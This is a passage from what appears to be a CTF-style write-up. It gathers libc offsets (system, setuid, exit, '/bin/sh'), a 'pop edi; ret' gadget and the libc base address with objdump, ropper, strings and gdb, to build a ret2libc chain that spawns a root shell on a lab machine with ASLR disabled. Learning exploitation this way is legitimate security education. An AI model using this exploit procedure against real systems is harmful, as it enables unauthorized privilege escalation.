 Next we need the gadgets to perform the ROP. The plan is to set the user id to 0 and then call `/bin/sh`. For the `setuid` part we will need `system`, and a  `pop edi; ret;`.
The offset for `system` and `setuid` can be found using `objdump` on the target libc. To find the `pop edi; ret;` ropper can be used with the `--search` flag.

```
$ objdump -TC ./libc.so.6 | grep system
...[snip]...
0003d2e0  w   DF .text  00000037  GLIBC_2.0   system
```

```
$ objdump -TC ./libc.so.6 | grep setuid
000bff10  w   DF .text  0000008c  GLIBC_2.0   setuid
```

```
$ ropper -f ./libc.so.6 --search 'pop edi; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop edi; ret;

[INFO] File: ./libc.so.6
0x0001869b: pop edi; ret;
```

For the second part we need `system` again, `exit` and the string `/bin/sh`. To get the offset of `exit` objdump works well again and to get the string `/bin/sh` the strings command is usefull.

```
$ objdump -TC ./libc.so.6 | grep exit
...[snip]...
000304b0 g    DF .text  00000021  GLIBC_2.0   exit
...[snip]...
```

```
$ strings -a -t x ./libc.so.6 | grep '/bin/sh'
 17e0af /bin/sh
```

The last thing for our script we need is the base address of libc which will always be the same on the target because of disabled ASLR. We can obtain the address using `gdb` on the target machine, breaking anywhere and looking at the proc mapping.

```
tester@overflow:~$ gdb -q /opt/file_encrypt/file_encrypt
Reading symbols from /opt/file_encrypt/file_encrypt...(no debugging symbols found)...done.
(gdb) b check_pin
Breakpoint 1 at 0xab4
(gdb) r
Starting program: /opt/file_encrypt/file_encrypt

Breakpoint 1, 0x56555ab4 in check_pin ()
(gdb) info proc map
process 68136
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
...[snip]...
        0xf7de9000 0xf7fbe000   0x1d5000        0x0 /lib/i386-linux-gnu/libc-2.27.so
...[snip]...
```
